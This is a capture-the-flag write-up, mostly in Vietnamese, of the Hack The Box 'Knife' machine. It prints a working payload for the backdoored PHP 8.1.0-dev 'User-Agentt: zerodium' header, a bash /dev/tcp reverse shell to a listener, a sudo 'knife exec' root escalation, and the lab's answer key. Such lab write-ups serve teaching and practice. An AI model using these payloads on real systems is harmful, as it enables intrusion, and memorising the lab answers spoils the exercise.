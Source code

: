 ![image](https://hackmd.io/_uploads/H1FsGxnFA.png)

# Machine info and Comment
## Machine info
Knife is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration is then exploited to gain a root shell.

## Comment


# Recon
## nmap 
Sau khi nmap ta thấy nó scan được **2** port ssh và http 
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS -n 10.10.10.242                                                            
[sudo] password for kali: 
Sorry, try again.
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 10:52 EDT
Nmap scan report for 10.10.10.242
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.87 seconds
```
Từ đây, ta sẽ scan tiếp 2 port này xem có gì để khai thác
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p22,80 -sCV 10.10.10.242                                                         
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 10:55 EDT
Nmap scan report for 10.10.10.242
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.78 seconds
```
## Wappalyzer

![image](https://hackmd.io/_uploads/BkMTcDRFA.png)

Từ công cụ này ta biết được web này sử dụng PHP với phiên bản **8.1.0**. Đây là phiên bản có lỗ hổng nghiêm trọng dẫn đến [RCE](https://www.exploit-db.com/exploits/49933) ở header **User-Agent**

![image](https://hackmd.io/_uploads/rk5-owCFR.png)

## 8.1.0-dev PHP
Khi dùng Burp ta cũng có thể thấy được phiên bản đầy đủ của nó là gì

![image](https://hackmd.io/_uploads/r112pPAFA.png)

**PHP 8.1.0-dev** version được phát hành có backdoor. Nếu phiên bản PHP này chạy trên máy chủ, kẻ tấn công có thể thực thi mã tùy ý bằng cách gửi header **User-Agentt**.

Hai commits độc hại đã được push tới kho lưu trữ code PHP Git của người tạo PHP

Trong các commit độc hại, kẻ tấn công đã lợi dụng “sửa lỗi đánh máy”

![image](https://hackmd.io/_uploads/H14sRvRKR.png)

Khi nhìn vào dòng 370 được thêm vào trong đó hàm `zend_eval_string` được gọi, mã này thực sự tạo ra một backdoor để có được RCE dễ dàng trên  web. Dòng này thực thi mã PHP từ bên trong header HTTP của useragent, nếu chuỗi bắt đầu bằng ‘zerodium’.

Zerodium là một công ty bảo mật có trụ sở tại Washington chuyên mua bán các lỗ hổng zero-day cho nhiều hệ điều hành cũng như các ứng dụng Web và máy tính để bàn phổ biến, bao gồm cả chính PHP.

# User flag
## Exploit
### Inject code and Reverse shell
Từ các hoạt động recon ở trên, ta sẽ gửi Request bằng Burp với header 

`User-Agentt: zerodium system("whoami");`

![image](https://hackmd.io/_uploads/HkfRkdAYR.png)

Gửi 1 reverse shell sau đó mở port để nghe
```
User-Agentt: zerodium system("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.93/1234 0>&1'");
```
![image](https://hackmd.io/_uploads/H1uoW_RtR.png)

`whoami` biết được tên user là **james**

## Post-Exploit
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.93] from (UNKNOWN) [10.10.10.242] 48812
whoami
james
cat /home/james/user.txt
267f08275103f86a4a*****
```
# Root flag
## Exploit
### sudo -l
```
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

[GTFOBins](https://gtfobins.github.io/gtfobins/knife/#sudo) có hỗ trợ ta thực hiện lệnh này

![image](https://hackmd.io/_uploads/HyXafORF0.png)

## Post-Exploit
Sử dụng lệnh sau
```
sudo knife exec -E 'exec "/bin/sh"'
whoami
root
```
Từ đây ta có thể hoàn thành máy bằng cách đọc file `root.txt`
```
cat /root/root.txt
3dd90c5f868adca9b******
```
# Result
1. How many TCP ports are open on Knife? --> 2
2. What version of PHP is running on the webserver? --> 8.1.0-dev
3. What HTTP request header can be added to get code execution in this version of PHP? --> User-Agentt
4. What user is the web server running as? --> james
5. Submit the flag located in the james user's home directory. --> 267f08275103f86a4a9*******
6. What is the full path to the binary on this machine that james can run as root? --> /usr/bin/knife
7. Submit the flag located in root's home directory. --> 3dd90c5f868adca9************


![image](https://hackmd.io/_uploads/H1ODQOAt0.png)
